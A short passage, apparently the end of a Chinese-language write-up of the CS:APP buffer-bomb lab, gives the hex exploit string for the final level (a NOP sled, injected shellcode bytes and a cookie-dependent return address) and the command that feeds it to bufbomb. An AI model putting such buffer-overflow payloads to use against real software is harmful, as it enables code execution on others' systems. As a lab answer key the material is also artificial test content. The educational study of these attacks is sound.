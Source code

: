```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 8d 6c 24 28
a1 e4 c1 04 08 68 93 8c 04 08 c3 90 90 90 90 90
00 00 00 00 70 35 68 55 
```
注意最后一行最后4个字节为跳转地址，这个地址需要计算得出，并且cookie不同这个值也不同。

这一关的运行代码为：

	cat answer4 | ./hex2raw -n | ./bufbomb -u zjs -n

至此，5个level的buffer overflow攻击就全完成了。
